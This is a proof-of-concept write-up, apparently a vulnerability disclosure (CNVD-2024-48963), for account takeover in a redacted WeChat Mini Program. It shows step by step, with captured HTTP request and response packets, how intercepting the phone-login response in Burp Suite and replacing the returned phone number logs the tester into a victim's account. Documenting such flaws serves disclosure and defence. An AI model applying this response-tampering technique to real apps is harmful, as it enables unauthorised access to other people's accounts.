







# Proof of Concept (PoC) for MiniPVRF in "xxxxxx" WeChat Mini Program of wx4148XXXX2405aa92

# CNVD-2024-48963-Arbitrary Account Takeover

 

## 1.Prerequisites for Reproduction

- Burp Suite tool (configured properly to capture network packets of WeChat Mini Programs)
- WeChat application (to search for and open the "wx4148XXXX2405aa92" Mini Program)

## 2. Vulnerability Reproduction Steps

### Step 1: Locate and Open the Target Mini Program

1. Launch the WeChat application.
2. Use the search function to find the WeChat Mini Program named **"xxxxxxxxxxxxxxxxxxx"**.
3. Click to open the searched Mini Program.
4. 

### Step 2: Navigate to the Login Page

1. On the homepage of the Mini Program, click the **"Personal Center" (个人中心)** tab at the bottom navigation bar.

2. 

3. On the "Personal Center" page, click the **"Login/Register" (登录 / 注册)** button.

   

4. On the login interface, select the **"Quick Login via Mobile Phone Number" (手机号快捷登录)** option.*

### Step 3: Capture the Login Request Packet with Burp Suite

1. Enable **Intercept Mode** in Burp Suite to monitor network requests of the Mini Program.

2. On the Mini Program's "Quick Login via Mobile Phone Number" page, a prompt will appear asking for authorization to use the WeChat-bound mobile phone number (shown as 18\*****\**16). Click the **"Allow" (允许)** button.
   

3. Burp Suite will intercept the following HTTP GET request packet sent by the Mini Program:

   

```http
GET /xxxxxxxx/wxPhoneGet?code=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx03e6d4 HTTP/1.1
Host: xxxxxxxxxx.com:8443
Accept: application/json
Xweb_xhr: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819)XWEB/11275
Content-Type: application/json
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://servicewechat.com/wx4148XXXX2405aa92/70/page-frame.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


### Step 4: Intercept and Tamper with the Response Packet

1. Keep Burp Suite in Intercept Mode and wait for the target server to return the **response packet** corresponding to the intercepted GET request.
   

2. The original response packet (with a 200 OK status) contains the attacker's test mobile phone number. The original response content is as follows:

   json

   ```json
   HTTP/1.1 200 OK
   Server: nginx
   Date: Tue, 03 Dec 2024 01:12:38 GMT
   Content-Type: application/json
   Connection: close
   Vary: Accept-Encoding
   Vary: Origin
   Vary: Access-Control-Request-Method
   Vary: Access-Control-Request-Headers
   Content-Length: 70
   
   {
     "code": 0,
     "msg": "成功",
     "data": {
       "userPhone": "18xxxxxxxxxxxx16"
     },
     "ok": true
   }
   ```

3. Modify the value of the  `userPhone` field in the `data`object from the original number ("18xxxxxxxxxx16") to the

   victim's mobile phone number (e.g., "19xxxxxxxxxxx93")

   The tampered response packet is as follows:

   ```json
   HTTP/1.1 200 OK
   Server: nginx
   Date: Tue, 03 Dec 2024 01:12:38 GMT
   Content-Type: application/json
   Connection: close
   Vary: Accept-Encoding
   Vary: Origin
   Vary: Access-Control-Request-Method
   Vary: Access-Control-Request-Headers
   Content-Length: 70
   
   {
     "code": 0,
     "msg": "成功",
     "data": {
       "userPhone": "19xxxxxxxxxxx93"
     },
     "ok": true
   }
   ```

   

### Step 5: Complete Arbitrary Account Login

1. Click the **"Forward"** button in Burp Suite to send the tampered response packet to the Mini Program.
2. Disable Intercept Mode in Burp Suite to avoid blocking subsequent normal network requests.
3. The Mini Program receives the tampered response and miskake think the login request is associated with the victim's mobile phone number ("19xxxxxxxxxxx93"), thus completing the automatic login to the victim's account.
   **